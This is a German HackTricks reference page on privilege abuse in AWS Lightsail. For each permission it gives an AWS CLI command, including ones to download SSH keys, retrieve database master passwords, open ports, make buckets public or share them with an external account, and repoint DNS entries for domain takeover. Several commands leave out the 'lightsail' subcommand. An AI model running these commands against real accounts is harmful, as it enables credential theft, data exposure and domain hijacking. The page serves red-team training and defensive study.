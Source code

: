 # AWS - Lightsail Privesc

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

## Lightsail

Für weitere Informationen über Lightsail siehe:

{% content-ref url="../aws-services/aws-lightsail-enum.md" %}
[aws-lightsail-enum.md](../aws-services/aws-lightsail-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Es ist wichtig zu beachten, dass Lightsail **keine IAM-Rollen des Benutzers** verwendet, sondern zu einem von AWS verwalteten Konto gehört, sodass du diesen Dienst nicht für Privilegieneskalation missbrauchen kannst. Allerdings könnten **sensible Daten** wie Code, API-Schlüssel und Datenbankinformationen in diesem Dienst gefunden werden.
{% endhint %}

### `lightsail:DownloadDefaultKeyPair`

Diese Berechtigung ermöglicht es dir, die SSH-Schlüssel zum Zugriff auf die Instanzen zu erhalten:
```
aws lightsail download-default-key-pair
```
**Potenzielle Auswirkungen:** Sensible Informationen innerhalb der Instanzen finden.

### `lightsail:GetInstanceAccessDetails`

Diese Berechtigung ermöglicht es Ihnen, SSH-Schlüssel zu generieren, um auf die Instanzen zuzugreifen:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**Potenzielle Auswirkungen:** Sensible Informationen innerhalb der Instanzen finden.

### `lightsail:CreateBucketAccessKey`

Diese Berechtigung ermöglicht es Ihnen, einen Schlüssel zum Zugriff auf den Bucket zu erhalten:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**Potenzielle Auswirkungen:** Sensible Informationen im Bucket finden.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

Diese Berechtigung ermöglicht es Ihnen, die Anmeldeinformationen zum Zugriff auf die Datenbank zu erhalten:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**Potenzielle Auswirkungen:** Sensible Informationen in der Datenbank finden.

### `lightsail:UpdateRelationalDatabase`

Diese Berechtigung ermöglicht es Ihnen, das Passwort zum Zugriff auf die Datenbank zu ändern:

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
{% endcode %}

Wenn die Datenbank nicht öffentlich ist, könnten Sie sie auch mit diesen Berechtigungen öffentlich machen

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
{% endcode %}

**Potenzielle Auswirkungen:** Sensible Informationen in der Datenbank finden.

### `lightsail:OpenInstancePublicPorts`

Diese Berechtigung erlaubt das Öffnen von Ports zum Internet.
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**Potenzielle Auswirkungen:** Zugriff auf sensible Ports.

### `lightsail:PutInstancePublicPorts`

Diese Berechtigung erlaubt es, Ports für das Internet zu öffnen. Beachten Sie, dass der Aufruf alle nicht angegebenen geöffneten Ports schließt.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**Potenzielle Auswirkungen:** Zugriff auf sensible Ports.

### `lightsail:SetResourceAccessForBucket`

Diese Berechtigung ermöglicht es, einer Instanz den Zugriff auf einen Bucket ohne zusätzliche Anmeldeinformationen zu gewähren.

{% code overflow="wrap" %}
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
{% endcode %}

**Potenzielle Auswirkungen:** Potenzieller neuer Zugriff auf Buckets mit sensiblen Informationen.

### `lightsail:UpdateBucket`

Mit dieser Berechtigung könnte ein Angreifer seinem eigenen AWS-Konto Lesezugriff auf Buckets gewähren oder die Buckets sogar für jeden öffentlich machen:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**Potenzielle Auswirkungen:** Potenzieller neuer Zugriff auf Buckets mit sensiblen Informationen.

### `lightsail:UpdateContainerService`

Mit diesen Berechtigungen könnte ein Angreifer Zugriff auf private ECRs vom Containerdienst gewähren.
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**Potenzielle Auswirkungen:** Sensible Informationen aus privatem ECR abrufen

### `lightsail:CreateDomainEntry`

Ein Angreifer mit dieser Berechtigung könnte einen Subdomain erstellen und ihn auf seine eigene IP-Adresse verweisen (Subdomain-Übernahme) oder einen SPF-Eintrag erstellen, der es ihm ermöglicht, E-Mails von der Domain zu fälschen, oder sogar die Hauptdomain auf seine eigene IP-Adresse setzen.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Potenzielle Auswirkungen:** Übernahme einer Domain

### `lightsail:UpdateDomainEntry`

Ein Angreifer mit dieser Berechtigung könnte ein Subdomain erstellen und es auf seine eigene IP-Adresse verweisen (Subdomain-Übernahme), oder einen SPF-Eintrag erstellen, der es ihm ermöglicht, E-Mails von der Domain zu fälschen, oder sogar die Hauptdomain auf seine eigene IP-Adresse setzen.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Potenzielle Auswirkungen:** Übernahme einer Domain

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}
